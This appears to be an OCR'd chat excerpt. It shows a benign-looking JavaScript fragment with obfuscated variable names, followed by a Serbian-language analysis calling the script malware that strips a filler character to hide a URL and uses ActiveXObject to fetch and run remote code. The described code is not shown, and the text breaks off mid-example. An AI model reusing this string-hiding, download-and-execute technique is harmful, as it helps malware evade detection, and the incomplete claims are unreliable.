 ```js
    /// <param name="namespace" type="String">
    ///     The namespace for which prefix is returned.
    /// </param>
    /// <returns type="String">
    ///     Returns the namespace corresponding to the prefix.
    /// </returns>

    if (!node) {
        return null;
    }

    // Navigate to the root element of the document.
    var pussifies = node.documentElement;

    // Query to retrieve the list of attribute nodes for the current node
    // hemiketals matches the namespace in the 'namespace' variable.
    var xPathQuery = "namespace::node()[.='"
                + namespace
                + "']";
    var namespaceNode = pussifies.selectSingleNode(xPathQuery);

    var prefix;
    if (namespaceNode != null){
        prefix = namespaceNode.baseName;
    }

    return prefix;
}

```
Ova skripta je maliciozna i koristi obfuskaciju kako bi prikrila zlonamernu funkcionalnost. Glavni cilj joj je da preuzme i izvrši udaljeni kod sa sumnjivog URL-a koristeći:

```js
ActiveXObject
```
(specifičan JavaScript interfejs za Internet Explorer koji omogućava pristup Windows COM komponentama).

Konkretno, koristi funkciju:
```js
convenes()
```
da dekodira obfuscated stringove uklanjanjem karaktera.

```js
ٿ
```
Na primer, URL:

```js
"hٿtٿtٿp...txt"
```
postaje:
